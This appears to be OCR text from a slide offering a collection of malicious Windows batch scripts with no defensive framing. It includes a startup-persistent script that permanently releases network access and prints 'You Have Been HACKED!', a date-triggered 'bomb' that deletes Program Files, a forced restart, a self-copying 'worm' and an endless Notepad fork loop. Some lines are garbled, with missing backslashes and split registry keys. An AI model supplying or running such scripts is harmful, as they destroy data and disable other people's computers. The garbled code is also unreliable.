

#
>>Disable Internet Permanently (bat file)

echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You Have Been HACKED!
PAUSE

>> Bomb Virus
If %date% NEQ 2019/04/30 goto exit
del C:\Program Files\.... /y >nul
:exit
exit
>> log off the computer
@echo off
shutdown -r
CreateObject(“SAPI.SpVoice”).Speak”I love YOU”
>> Simple Worm
@echo off
copy C:\Malwares\virus.bat C:\Malwares
start C:\Malwares\virus.bat
>>Endless Notepads
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top